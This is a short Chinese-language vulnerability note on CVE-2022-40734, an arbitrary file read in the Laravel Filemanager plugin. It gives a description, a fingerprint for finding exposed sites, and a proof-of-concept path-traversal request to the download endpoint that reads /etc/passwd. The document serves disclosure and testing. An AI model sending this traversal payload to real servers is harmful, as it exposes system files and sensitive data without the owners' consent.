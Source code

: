 # Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

<a-checkbox checked>Laravel Filemanager插件</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Laravel Filemanager"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1664084648855-fcb64ea4-cb62-4919-810c-a7d5af1f32d4.png)

验证POC

```sql
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1664084692096-263ec0e8-f683-4ec3-8d01-d2b0bc177fc2.png)